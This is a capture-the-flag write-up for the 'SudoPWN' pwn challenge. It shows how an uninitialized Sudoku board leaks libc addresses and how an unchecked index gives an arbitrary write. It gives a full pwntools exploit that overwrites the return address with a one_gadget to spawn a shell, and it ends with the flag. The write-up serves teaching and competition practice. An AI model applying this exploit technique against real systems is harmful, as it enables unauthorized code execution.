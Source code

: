 # SudoPWN

## Description

Category : pwn<br>
Points : 492<br>
Solves : 2<br>

Check out my Sudoku console game !

## Analysis 
This is a simple sudoku console-game. We can fill/randomize/print/autosolve the board.
We notice that the board is not initialized:
```c
Board board[N][N];
```
so by printing the board we can leak previously used addresses from the stack.
```
$ ./sudopwn
1) Fill board
2) Randomize board
3) Print board
4) Autosolve board
5) Exit

> 3

    1700966438 |   -1643795816 32705 | -1583889672 32764 -1583889616
32764 -1643796720 32705 |     -1646025793 | 32705
-1583889616 32764   |       |     -1643796720
------+-------+------
32705 -1648421113 32705 |     -1583889840 | 32764 -1583889824 32764
-1643795816 32705   |       | -1583889808 32764 -1
      | -1583414576 32764 -1643796720 | 32705
------+-------+------
      |       | 11   -1646061984
32705 -1583889656 32764 | 15774463   1 |   -1419767187 21907
-1646003360 32705   |   -1419767264 21907 | -1419769696 21907 -1583889456
```
We also notice the the fill_board function doesn't check if the indexes are >= 9, so we have an arbitrary write primitive.
```c
void fill_board(Board board[N][N]) {
  int row, col, val;

  row = read_num("Row index: ");
  col = read_num("Column index: ");
  val = read_num("Value: ");

  board[row][col] = val;
}
```
After doing some dynamic analysis with pwndbg, we find that there is a libc address of the string "__vsdo_getcpu"
at index board[3][1]
```
pwndbg> x/41gx $rbp-0x150
0x7fffffffe630: 0x0000000000000000      0x000000006562b026
0x7fffffffe640: 0x00007ffff7ffea98      0x00007fffffffe788
0x7fffffffe650: 0x00007fffffffe7c0      0x00007ffff7ffe710
0x7fffffffe660: 0x0000000000000000      0x00007ffff7dde3bf
0x7fffffffe670: 0x0000000000000000      0x00007fffffffe7c0
0x7fffffffe680: 0x0000000000000000      0x0000000000000000
0x7fffffffe690: 0x0000000000000000      0x00007ffff7ffe710
0x7fffffffe6a0: 0x00007ffff7b95707<---- 0x0000000000000000
0x7fffffffe6b0: 0x00007fffffffe6e0      0x00007fffffffe6f0
0x7fffffffe6c0: 0x00007ffff7ffea98      0x0000000000000000
0x7fffffffe6d0: 0x0000000000000000      0x00007fffffffe700
0x7fffffffe6e0: 0x00000000ffffffff      0x0000000000000000
0x7fffffffe6f0: 0x00007ffff7ffa2d0      0x00007ffff7ffe710
0x7fffffffe700: 0x0000000000000000      0x0000000000000000
0x7fffffffe710: 0x0000000000000000      0x0000000000000000
0x7fffffffe720: 0x000000000000000b      0x00007ffff7dd5660
0x7fffffffe730: 0x00007fffffffe798      0x0000000000f0b2ff
0x7fffffffe740: 0x0000000000000001      0x000055555540126d
0x7fffffffe750: 0x00007ffff7de3b60      0x0000000000000000
0x7fffffffe760: 0x0000555555401220      0x00005555554008a0
0x7fffffffe770: 0x00007fffffffe860
pwndbg> x/s 0x00007ffff7b95707
0x7ffff7b95707: "__vdso_getcpu"
```

## Solution
After leaking the "_vdso_getcpu" libc address, we can calculate the libc base address using the offset, then overwrite the main return address
at index board[9][5] with a one_gadget to get a shell.

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./sudopwn")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['st']

one_gadget_offset = 0x10a41c

def conn():
    if args.LOCAL:
        return process(exe.path)
    else:
        return remote("pwn.ctf.microclub.net", 5004)

def main():
    r = conn()

    log.info('Leaking libc address ...')
    r.sendline('3')
    r.recvuntil('------+-------+------\n')
    numbers = r.recvline().decode("utf-8")
    libc__vdso_getcpu = (int(numbers.split(' ')[0]) << 32) + (int(numbers.split(' ')[1]) & 0xffffffff)
    log.info(f'Libc__vdso_getcpu address : {hex(libc__vdso_getcpu)}')
    libc.address = libc__vdso_getcpu - next(libc.search(b"__vdso_getcpu"))
    log.info(f'Libc base address : {hex(libc.address)}')
    one_gadget = libc.address + one_gadget_offset
    log.info(f'Libc one gadget : {hex(one_gadget)}')
    r.sendline('1\n9\n5')
    r.sendline(str(one_gadget & 0xffffffff))
    r.sendline('5')

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag
```
shellmates{th3_WH0lE_4ddre$s_sP4c3_Is_4_sUD0kU_b0aRD!!!}
```

[Shellmates's original write-ups](https://github.com/Shellmates/MicroCTF-2021-quals)

